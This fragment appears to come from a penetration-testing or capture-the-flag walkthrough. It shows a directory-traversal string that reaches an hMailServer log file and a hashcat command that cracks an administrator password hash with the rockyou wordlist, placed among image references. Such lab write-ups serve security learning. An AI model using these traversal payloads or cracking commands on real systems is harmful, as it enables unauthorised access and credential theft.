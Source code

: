 ```
../../../../../../../../Program+Files+(x86)/hMailServer/Logs/hmailserver_awstats.log
```

![](./IMG/25.png)

> Crack administrator password 

```
hashcat -m 500 administrator /usr/share/wordlists/rockyou.txt
```

![](./IMG/29.png)
